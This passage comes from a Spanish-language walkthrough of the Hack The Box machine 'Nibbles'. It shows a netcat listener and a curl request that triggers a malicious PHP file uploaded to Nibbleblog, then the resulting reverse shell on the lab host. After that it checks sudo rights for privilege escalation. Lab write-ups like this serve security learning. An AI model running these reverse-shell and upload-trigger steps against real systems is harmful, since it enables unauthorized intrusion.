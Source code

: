 Nos pondremos en escucha para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Seguidamente, realizaremos la petición por `GET` del archivo malicioso subido al CMS para que sea ejecutado en el servidor.

```bash
❯ curl -s -X GET 'http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php'
```

Comprobamos que hemos ganado finalmente el acceso al equipo y podemos visualizar la flag de **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.75] 54860
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 13:05:38 up 19:01,  0 users,  load average: 0.00, 0.00, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ script /dev/null -c bash
Script started, file is /dev/null
nibbler@Nibbles:/$ cat /home/nibbler/user.txt
cat /home/nibbler/user.txt
d08355b8d4c************************
```

## Privilege Escalation

### Abusing sudoers privilege

Revisaremos los grupos a los que formamos parte y si disponemos de algún privilegio de `sudoers`. Nos encontramos que podemos ejecutar como `sudo` sin proporcionar credenciales un script en Bash ubicado en `/home/nibbler/personal/stuff/monitor.sh`.

```bash
nibbler@Nibbles:/$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
nibbler@Nibbles:/$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Revisando el directorio personal del usuario `nibbler`, nos encontramos con un archivo comprimido (`personal.zip`) el cual al descomprimirlo se nos generan los directorios correspondientes y el script mencionado anteriormente.
